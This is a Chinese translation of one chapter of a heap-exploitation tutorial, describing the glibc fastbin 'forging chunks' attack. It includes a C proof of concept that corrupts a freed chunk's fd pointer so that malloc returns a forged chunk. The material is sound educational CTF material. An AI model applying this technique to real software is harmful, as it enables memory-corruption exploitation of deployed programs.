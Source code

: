```yaml
---
title: Heap Exploitation系列翻译-10 Forging chunks
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```


# Forging chunks

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

在堆块被释放后, 堆块会被插入到一个bin链表中. 然而它的指针在程序中依旧是可用的. 如果攻击这控制了这个指针, 那么他/她便可以修改bin的链表结构并插入他/她自己构造的`伪造`堆块. 以下的示例程序展示了在fastbin的释放链表中如何实现这一攻击.

```c
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);               // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");

// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

伪造堆块的size设置为0x20, 这一就可以通过安全检查"malloc(): memory corruption (fast)", 这是用来检查堆块大小是否在特定fastbin的代销范围内. 同时要注意, 一块已分配的堆块, 它的存储数据起始于'fd'指针所在的地址. 这也就是为什么在上述程序中, `victim`指针指向了'伪造堆块'更前`0x10`(0x8+0x8)字节的位置处.

fastbin的状态变化如下:

1. 'a' freed.
  > head -> a -> tail
2. a's fd pointer changed to point to 'forged chunk'.
  > head -> a -> forged chunk -> undefined (fd of forged chunk will in fact be holding attacker's data)
3. 'malloc' request
  > head -> forged chunk -> undefined
4. 'malloc' request by victim
  > head -> undefined   [ forged chunk is returned to the victim ]

注意以下几点:

* 如果这里同一个bin链表再进行一次'malloc'申请fast chunk将导致段错误(segmentation fault)
* 尽管我们申请10字节大小并且设置伪造堆块的大小为32(0x20)bytes, 但是都在32bytes的fastbins堆块范围内.
* 换作small chunk和large chunk的攻击方法我们将在'House of Lore'见到
* 上述代码运行在64位机器上, 如果要在32位机器上运行, 请将`unsigned long long`换成`unisgned int`, 因为指针长度由8bytes变成了4bytes. 同样, 相比为伪造堆块使用32bytes, 这里用更小的17bytes左右也能奏效.
